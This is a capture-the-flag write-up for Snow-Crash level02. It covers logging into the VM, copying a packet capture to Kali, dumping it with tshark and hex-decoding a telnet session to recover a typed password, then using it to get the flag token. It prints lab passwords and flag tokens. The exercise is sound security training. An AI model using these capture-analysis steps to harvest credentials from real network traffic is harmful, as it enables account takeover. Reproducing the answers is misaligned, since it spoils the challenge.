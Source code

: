 # Flag 02

- Access to Snow-Crash VM level02/f2av5il02puano7naaf6adaaf credential
```
e1r9p7% ssh -p 4242 level02@10.11.100.146
```

- `ll`
```
----r--r-- 1 flag02  level02 8302 Aug 30  2015 level02.pcap
```

- Search in google how to read the data of a pcap file with wireshark tool
https://osqa-ask.wireshark.org/questions/15374/dump-raw-packet-data-field-only/

- Copy pcap file from local to Kali
```
level02@SnowCrash:~$ scp level02.pcap kali@10.11.100.41:/home/kali/.
```

- Change permissions to read it 
```
chmod +r level02.pcap 
```

- Print just the data, in ASCII format.
```
tshark -r level02.pcap -T fields -e data
```

```
fffd25

fffc25

fffb26fffd18fffd20fffd23fffd27fffd24
fffe26fffb18fffb20fffb23fffb27fffc24
fffa2001fff0fffa2301fff0fffa2701fff0fffa1801fff0
fffa200033383430302c3338343030fff0fffa2300536f646143616e3a30fff0fffa270000444953504c415901536f646143616e3a30fff0fffa1800787465726dfff0
fffb03fffd01fffd22fffd1ffffb05fffd21
fffd03fffc01fffb22fffa220301000003620304020f05000007621c08020409421a0a027f0b02150f02111002131102ffff1202fffffff0fffb1ffffa1f00b10031fff0fffd05fffb21
fffa220103fff0
fffa220107fff0
fffa2103fff0fffb01fffd00fffe22
fffd01fffb00fffc22
fffa220303e20304820f07e21c08820409c21a0a827f0b82150f82111082131182ffff1282fffffff0

0d0a4c696e757820322e362e33382d382d67656e657269632d70616520283a3a666666663a31302e312e312e322920287074732f3130290d0a0a010077777762756773206c6f67696e3a20

6c
006c

65
0065

76
0076

65
0065

6c
006c

58
0058

0d
01

000d0a50617373776f72643a20

66

74

5f

77

61

6e

64

72

7f

7f

7f

4e

44

52

65

6c

7f

4c

30

4c

0d

000d0a

01

000d0a4c6f67696e20696e636f72726563740d0a77777762756773206c6f67696e3a20
```

- Decode it with https://www.convertstring.com/EncodeDecode/HexDecode
```
ÿý%ÿü%ÿû&ÿýÿý ÿý#ÿý'ÿý$ÿþ&ÿûÿû ÿû#ÿû'ÿü$ÿú ÿðÿú#ÿðÿú'ÿðÿúÿðÿú �38400,38400ÿðÿú#�SodaCan:0ÿðÿú'��DISPLAYSodaCan:0ÿðÿú�xtermÿðÿûÿýÿý"ÿýÿûÿý!ÿýÿüÿû"ÿú"��b��b	B
ÿÿÿÿÿðÿûÿú�±�1ÿðÿýÿû!ÿú"ÿðÿú"ÿðÿú!ÿðÿûÿý�ÿþ"ÿýÿû�ÿü"ÿú"ââ	Â
ÿÿÿÿÿð
Linux 2.6.38-8-generic-pae (::ffff:10.1.1.2) (pts/10)

�wwwbugs login: l�le�ev�ve�el�lX�X
�
Password: ft_wandrNDRelL0L
�
�
Login incorrect
```

- Try to access to flag01 to get the flag using `ft_wandrNDRelL0L`
```
level02@SnowCrash:~$ su flag02
Password: 
Don't forget to launch getflag !
flag02@SnowCrash:~$ getflag
Check flag.Here is your token : kooda2puivaav1idi4f57q8iq
```









